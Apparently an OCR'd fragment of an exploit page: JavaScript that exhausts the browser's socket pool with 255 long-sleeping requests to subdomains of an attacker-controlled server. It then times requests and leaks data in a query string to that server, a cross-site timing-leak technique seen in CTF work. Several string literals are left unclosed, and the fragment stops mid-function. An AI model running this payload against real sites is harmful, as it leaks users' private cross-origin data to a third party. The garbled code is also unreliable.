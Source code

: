 ```

  
</form>

<script>
  // this is send is used as logging
  LOG = "Starting"
  // 255 in normal chrome, 99 in headless
  SOCKETLIMIT = 255
  // default
  TIMELIMIT = 800
  INSTANCE = ""
  MYSERVER = `example.com

  const sleep = (ms) => {
    return new Promise((resolve) => {
      setTimeout(resolve, ms)
    })
  }

  const time_fetch = async () => {
    let test_server_url = `https://${MYSERVER}/?${LOG}
    let start = window.performance.now()
    try {
      await fetch(test_server_url, {
        mode: "no-cors",
      })
    } catch (e) {
      console.log(e)
    }
    let end = window.performance.now()
    return end - start
  }

  const fetch_sleep_long = (i) => {
    // 40s sleep
    return fetch(`https://${i}.${MYSERVER}/40sleep, {
      mode: "no-cors",
    })
  }

  const fetch_sleep_short = (i) => {
    // 0.25s sleep
    return fetch(`https://${i}.${MYSERVER}/ssleep, {
      mode: "no-cors",
    })
  }

  const block_socket = async (i) => {
    fetch_sleep_long(i)
    // needed?
    await sleep(0)
  }

  const exhaust_sockets = async () => {
    let i = 0
    for (; i < SOCKETLIMIT; i++) {
      block_socket(i)
    }
    console.log(`Used ${i} connections)
  }

  const timeit = async (url, popup) => {
```